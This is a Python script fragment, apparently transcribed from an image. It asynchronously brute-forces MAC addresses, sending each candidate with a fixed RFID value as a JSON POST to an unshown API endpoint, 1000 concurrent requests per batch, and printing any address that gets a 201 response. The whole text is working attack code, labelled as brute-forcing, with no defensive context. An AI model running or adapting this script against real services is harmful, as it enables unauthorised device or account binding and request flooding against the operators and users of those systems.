 ```python
rfid = "f4bfd940"

# Limit the number of concurrent requests
MAX_CONCURRENT_REQUESTS = 1000

async def send_request(session, mac_address):
    payload = json.dumps({
        "mac_address": mac_address,
        "rfid": rfid
    })
    
    async with session.post(url, headers=headers, data=payload) as response:
       # print(await response.text())
        #print(response.status)
        if response.status == 201:  # Only print if the status is 201
            response_text = await response.text()
            print(f"Testing MAC: {mac_address} -> Response: {response_text}")
            return True  # Indicating success
        return False  # Indicating failure

async def brute_force_mac_addresses():
    total_mac_addresses = len(ouis) * (0xFF + 1) * (0xFF + 1)
    progress = tqdm(total=total_mac_addresses, desc="Brute-forcing MAC addresses", unit="request")

    # Set up the aiohttp session
    async with aiohttp.ClientSession() as session:
        tasks = []
        for oui in ouis:
            for suffix1, suffix2 in itertools.product(mac_suffix_range, repeat=2):
                mac_address = f"{oui}:{suffix1:02X}:{suffix2:02X}"
                print(mac_address)
                
                # Create the task for each request
                task = asyncio.ensure_future(send_request(session, mac_address))
                tasks.append(task)
                
                # Send a batch of requests
                if len(tasks) >= MAX_CONCURRENT_REQUESTS:
                    results = await asyncio.gather(*tasks)
                    tasks = []  # Reset the task list
                    progress.update(MAX_CONCURRENT_REQUESTS)

        # Await any remaining tasks
        if tasks:
            await asyncio.gather(*tasks)
            progress.update(len(tasks))
    
    progress.close()  # Close the progress bar when done

if __name__ == "__main__":
    asyncio.run(brute_force_mac_addresses())
```

